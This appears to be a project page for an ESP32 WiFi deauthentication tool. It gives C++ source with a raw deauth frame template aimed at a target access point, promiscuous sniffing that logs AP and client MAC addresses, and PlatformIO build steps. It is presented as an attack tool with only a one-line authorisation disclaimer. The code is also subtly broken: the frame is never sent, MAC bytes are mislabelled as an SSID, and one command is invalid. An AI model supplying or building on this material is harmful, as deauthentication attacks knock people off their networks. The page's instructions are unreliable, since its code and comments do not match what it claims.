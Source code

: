 ## PlatformIO ESP32 WiFi Deauthentication Project

### Project Setup

#### Prerequisites
- PlatformIO installed
- VSCode (recommended)
- ESP32 development board

### Source Code

#### `main.cpp`

```cpp
#include <Arduino.h>
#include <WiFi.h>
#include <esp_wifi.h>

uint8_t deauthPacket[26] = {
    0xC0, 0x00,
    0x3A, 0x01,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0x88, 0xC9, 0xB3, 0x09, 0x5B, 0xD0, // Target SSID in hex
    0x88, 0xC9, 0xB3, 0x09, 0x5B, 0xD0, // Repeating SSID in hex
    0x00, 0x00,
    0x01, 0x00
};

void snifferCallback(void* buf, wifi_promiscuous_pkt_type_t* type) {
    wifi_promiscuous_pkt_t* packet = (wifi_promiscuous_pkt_t*)buf;
    uint8_t* frame = packet->payload;
    uint8_t* destMac = frame + 4;     // Destination MAC
    uint8_t* srcMac = frame + 10;     // Source MAC
    uint8_t* bssid = frame + 16;      // BSSID (for beacon/data frames)
    
    Serial.print("AP (BSSID): ");
    for (int i = 0; i < 6; i++) {
        Serial.printf("%02X", bssid[i]);
        if (i < 5) Serial.print(":");
    }
    
    Serial.print(" | Client (MAC): ");
    for (int i = 0; i < 6; i++) {
        Serial.printf("%02X", srcMac[i]);
        if (i < 5) Serial.print(":");
    }
    Serial.println();
}

void setup() {
    Serial.begin(115200);
    WiFi.mode(WIFI_STA);
    
    esp_wifi_set_promiscuous(true);
    esp_wifi_set_promiscuous_rx_cb(snifferCallback);
    esp_wifi_set_channel(6, WIFI_SECOND_CHAN_NONE); // Adjust channel as needed
    esp_wifi_set_promiscuous(true);
}

void loop() {
    delay(100);
}
```

### Project Workflow

#### Getting Target SSID
1. Put WiFi adapter in monitor mode
2. Capture the target SSID in hex format
3. Replace the hex values in `deauthPacket` array

#### Compilation Commands

1. Compile the project:
   ```bash
   pio run
   ```

2. Upload and monitor:
   ```bash
   pio run --target upload && pio device monitor
   ```

#### Troubleshooting

- If you encounter header errors, reinitialize the project:
  ```bash
  pio run init --ide vscode
  ```

### Important Notes
- Ensure `upload_port` is correctly configured in `platformio.ini`
- Verify channel settings match your target network
- **Disclaimer**: Use only for educational purposes with proper authorization

### Recommendations
- Double-check MAC addresses
- Verify WiFi adapter compatibility
- Understand local regulations regarding WiFi monitoring